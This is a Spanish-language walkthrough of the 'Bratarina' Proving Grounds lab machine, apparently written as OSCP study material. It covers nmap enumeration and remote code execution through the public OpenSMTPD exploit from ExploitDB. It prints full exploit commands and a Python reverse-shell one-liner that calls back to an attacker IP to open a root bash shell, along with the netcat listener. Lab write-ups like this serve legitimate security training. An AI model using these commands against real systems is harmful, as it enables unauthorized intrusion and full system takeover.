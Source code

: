 ```yaml
---
layout: post
title: Bratarina (Linux - Intermediate) - Proving Grounds Practice
date: 10.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, OpenSMTPD 2.0.0, OpenSMTPD 6.6.1, SMTP, TCPDump, ExploitDB, RCE, Intermediate]
image:
  path: assets/img/post-img/PGimage-Title/PG-Title.svg
  alt: 
---
```


# Resolución paso a paso de la máquina Bratarina:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.169.71 -oG allPorts
```

![image.png](assets/img/post-img/Bratarina/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p22,25,80,445 --min-rate 5000 192.168.169.71 -oN targeted
```

 

![image.png](assets/img/post-img/Bratarina/image%201.png)

## EXPLOTACIÓN

- Analizamos varias opciones para encontrar un punto de entrada pero en la **WEB** no encontramos nada, por **SMB** tampoco parece haber nada interesante, intentamos interactuar por **SMTP** a través de **NC** pero tampoco logramos nada importante. Buscamos **EXPLOITS** en base a los **SERVICIOS** y **VERSIONES** y encontramos varias opciones para “**OpenSMTPD**” que, aunque en la máquina víctima se usa la **versión 2.0.0**, todos son de versiones más recientes. Entre los **EXPLOITS** hay una opción escrita en **PYTHON 3** que parece interesante:

### EXPLOITDB

![image.png](assets/img/post-img/Bratarina/image%202.png)

[OpenSMTPD 6.6.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47984)

- Descargamos el **EXPLOIT** y vemos que tenemos que pasarle **3 argumentos**, la **IP** de la máquina víctima, el **PUERTO** de **SMTP (25)** y el comando que queramos ejecutar. Para comprobar si funciona y si podemos recibir conexiones nos ponemos en escucha con **TCPDUMP** y nos enviamos un **PING** hacia nuestra máquina atacante:

```bash
python3 smtpd-script.py 192.168.169.71 25 'ping -c 1 192.168.45.223'
```

![image.png](assets/img/post-img/Bratarina/image%203.png)

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](assets/img/post-img/Bratarina/image%204.png)

- Ahora vamos a intentar lanzarnos la **REVERSE SHELL** para ganar acceso al sistema. Después de muchísimos intentos y de probar con muchas opciones descubrí que con un **NC** básico me llegaba la conexión pero no me permitía interactuar con la **SHELL**, así que seguí buscando hasta que di con una **SHELL** en **PYTHON** que me funcionó (Hay que escapar todas las comillas que se encuentran dentro del **PAYLOAD** con una barra invertida “**\**” para que no entren en conflicto):

[Online - Reverse Shell Generator](https://www.revshells.com/)

![image.png](assets/img/post-img/Bratarina/image%205.png)

```bash
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.223\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

- Nos ponemos en escucha, preparamos el **EXPLOIT** y lo lanzamos:

```bash
python3 smtpd-script.py 192.168.169.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.223\",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

![image.png](assets/img/post-img/Bratarina/image%206.png)

- Igual que pasa en otras máquinas como por ejemplo **SNOOKUMS**, debemos ponernos en escucha con **NC** por alguno de los **PUERTOS** que la propia máquina víctima tiene abiertos. Si no es así no funcionará y no podremos recibir la conexión.

```bash
nc -lvnp 22
```

![image.png](assets/img/post-img/Bratarina/image%207.png)

- Hemos ganado acceso como **ROOT** directamente, ahora ya podemos leer la **FLAG**:

![image.png](assets/img/post-img/Bratarina/image%208.png)